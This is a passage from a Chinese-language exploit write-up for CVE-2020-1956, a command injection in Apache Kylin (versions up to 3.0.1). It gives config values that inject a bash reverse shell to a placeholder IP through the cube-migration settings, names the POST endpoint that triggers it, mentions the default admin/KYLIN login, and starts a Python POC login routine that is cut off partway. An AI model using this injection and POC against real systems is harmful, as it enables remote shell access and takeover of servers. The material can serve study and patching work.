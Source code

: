 由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个shell，设置的配置为

> [!NOTE]
>
> kylin.tool.auto-migrate-cube.enabled=true
>
> kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
>
> kylin.tool.auto-migrate-cube.dest-config=shell

![](/img/20210924015648457683.png)

再去发送POST请求 **/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate**

![](/img/20210924015648649489.png)

成功反弹一个shell

![](/img/20210924015648853813.png)

## 漏洞利用POC

> [!NOTE]
>
> POC利用前提是拥有账号密码，默认账号密码是 admin/KYLIN

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
    print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    login_url = target_url + "/kylin/api/user/authentication"
    user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))

    Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Cookie": "project=null"
    }
    try:
        response = requests.post(url=login_url, headers=headers, timeout=20)
        if "password" not in response.text:
            print("\033[31m[x] 账号密码出现错误 \033[0m")
            sys.exit(0)
        else:
```
